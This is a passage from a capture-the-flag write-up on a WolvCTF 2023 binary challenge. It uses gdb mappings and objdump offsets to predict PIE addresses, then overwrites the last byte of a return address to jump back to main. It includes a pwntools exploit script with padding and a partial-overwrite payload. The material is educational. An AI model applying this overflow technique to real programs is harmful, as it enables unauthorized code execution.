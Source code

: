 Inspecting the process mappings in gdb confirms that our new plan could work.

!["process mappings"](./images/mappings.png "process mappings")

The instructions and functions of the executable are all placed in different sequential chunks in memory. Where these chunks are will be random, but they will always be together and the distance between differenet addresses will be constant. When running in gdb the elf will start at **0x555555554000**. The last three hex characters will usually be 0, and this is what we can take advantage of. 

As you can see in the previous screen shot, I also printed the address of main, which was **0x555555555247**. Running `objdump -t challenge` in the terminal will give us "001247 ... main". This is the constant offset from the base of the executable, which we can confirm by calculating **0x555555554000+0x1247=0x555555555247**. 

The result of all of this is that we can predict what the last three hex characters of any instruction from the executable will be. Because two hex characters = 1 byte, We can only predict one full byte. Fortunately for us, when disassembling the main function in gdb, we can see that the first main address ends in **247** and the address of the instruction after the call to echo ends in **2b3**. This means it will be enough for us to overwrite the last byte with 0x47 and echo should return to the start of main instead of the end of main. The following python script was my way of doing this:

```py
from pwn import *

exe = ELF("./challenge")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe

p = process("./challenge")
gdb.attach(p)
#p = remote("echotwo.wolvctf-2023.kctf.cloud", 1337)

offset = 279
sending = offset + 1 

payload = b"A"*offset
payload += b"\x4c" # start of main func (after push rbp)

p.recvline()
p.sendline(str(sending + 1).encode())
p.sendline(payload)

p.interactive()
```
